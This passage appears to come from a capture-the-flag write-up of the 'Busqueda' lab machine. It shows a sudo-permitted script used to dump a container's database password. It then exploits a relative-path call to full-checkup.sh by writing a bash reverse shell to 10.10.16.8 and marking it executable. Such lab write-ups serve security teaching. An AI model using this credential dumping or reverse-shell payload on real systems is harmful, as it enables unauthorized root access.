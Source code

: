 Executing the script with sudo privileges, we are able to do a ```docker-inspect``` command using the python script with root permissions. From there, we are able to inspect the docker container belonging to mysql and we are able to obtain the database password from there

```
svc@busqueda:/opt/scripts$ sudo python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' f84a6b33fb5a
sudo python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' f84a6b33fb5a
{
        ...
        "MYSQL_USER=gitea",
        "MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh",
        "MYSQL_DATABASE=gitea",
        ...        
}
```

Using the database credentials, we are able to login to gitea.searcher.htb as administrator user. We are then able to find the source code for the scripts at /opt/scripts at http://gitea.searcher.htb/administrator/scripts

Looking at the ```system-check.py``` script, we are able to find a path injection vulnerability in the following lines of codes. This is because, the code does not specify the complete path for ```full-checkup.sh```. This means that we can create a ```/tmp/full-checkup.sh``` script in the /tmp directory and we can execute the ```full-checkup.sh``` script in the ```/tmp``` directory

```
    elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)

```


To exploit this vulnerability, we will be writing a reverse shell payload into ```/tmp/system-checkup.sh``` and we will then modify the permissions of ```/tmp/system-checkup.sh``` to make it executable
```
svc@busqueda:/tmp$ echo -e '#!/bin/bash\n\n/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.8/3000 0>&1"' > full-checkup.sh
echo -e '#!/bin/bash\n\n/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.8/3000 0>&1"' > full-checkup.sh
svc@busqueda:/tmp$ cat full-checkup.sh
cat full-checkup.sh
#!/bin/bash

/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.8/3000 0>&1"
svc@busqueda:/tmp$ 

svc@busqueda:/tmp$ chmod +x full-checkup.sh
chmod +x full-checkup.sh
```
